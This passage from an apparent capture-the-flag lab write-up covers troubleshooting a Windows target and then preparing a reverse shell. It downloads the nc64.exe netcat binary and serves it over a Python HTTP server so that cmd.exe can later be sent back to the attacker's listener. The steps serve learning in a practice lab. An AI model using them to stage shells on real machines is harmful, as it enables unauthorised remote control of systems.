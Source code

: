 It's crucial, `wevtutil` process must be running.

#### Disclaimer

If you don't see `wevtutil` process running. Exit `powershell` and run `job.bat`. You will get disconnected. Connect again and everything should work.

If you have done it and it still doesn't work, just spawn a `new machine`. Few attempts could be needed but it'll work.

### Reverse shell preparation

We will upload the `nc64.exe` binary to the target machine and use it to launch an interactive `cmd.exe` session on our listening port.

#### Download `nc64.exe`

Open new tab and type:

```
wget https://github.com/int0x33/nc.exe/raw/master/nc64.exe
```

![reverseshell](./Screenshots/markupshell.png)

File is downloaded, now type:

```
python3 -m http.server 80
```

Remember to run the server in the directory where `nc64.exe` file is present.

![reverseshell](./Screenshots/markupshell2.png)
